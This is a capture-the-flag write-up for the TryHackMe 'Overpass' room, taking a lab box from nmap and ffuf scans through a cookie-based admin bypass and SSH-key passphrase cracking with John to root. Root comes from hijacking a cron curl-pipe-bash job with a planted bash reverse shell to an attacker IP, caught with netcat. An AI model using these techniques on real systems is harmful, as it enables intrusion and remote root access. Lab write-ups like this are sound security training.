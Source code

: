 ```yaml
---
title: "Overpass Writeup THM"
description: "My writeup of the TryHackMe room [Overpass](https://tryhackme.com/room/overpass)"
date: 2024-01-03T10:00:00+01:00
image: https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
    - Privilege Escalation
    - Crontab
categories:
    - Room
    - Easy
---
```


The first thing that I am going to do is a nmap scna:

```bash
nmap 10.10.192.193

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 09:30 EST
Nmap scan report for 10.10.192.193
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

From there we can see that the host is running ssh and a web page, let’s see what;s in the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png)

Looking at the source code I have found this:

```bash
Overpass allows you to securely store different
                passwords for every service, protected using military grade
                <!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
                cryptography to keep you safe.
```

The commented part can be a hint that the password are stored using ROT13.

After that I ran a directory discovery scan:

```bash
ffuf -u http://10.10.192.193/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.192.193/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 57ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

Going into the admin page I got meeted with a login form.

This login form loads a script:

```bash
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script bascially allows you to create a token named SessionToken, and make a value different from “Incorrect credentials” and gives you access in the admin page

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled%201.png)

We found out a ssh key, now I am going to try and access james account with it:

```bash
chmod 400 id_rsa

┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa james@10.10.192.193
Enter passphrase for key 'id_rsa':
```

Seems like it wants a passphrase.

We can retrieve that with John:

```bash
ssh2john id_rsa > id.txt

┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt id.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>          (id_rsa)
1g 0:00:00:00 DONE (2024-01-01 09:58) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pimentel..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And it worked:

```bash
ssh -i id_rsa james@10.10.192.193

Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  1 15:00:25 UTC 2024

  System load:  0.12               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.192.193
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

Once there I found this, in the .overpass file:

```bash
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

Which is James’s password

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Looks like there is a crontab running which uses curl totake the buildscript.sh and run that.

From there I just edited the /etc/hosts file and I addes my IP, so now when it will try to retrieve the script, it will retrive it from me.

So I made this script inside a /downloads/src/ folder:

```bash
cat buildscript.sh
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.18.20.116/5555 0>&1
```

So when I started the server it took my script and I got a reverse shell:

```bash
nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.192.193] 39270
bash: cannot set terminal process group (2104): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```
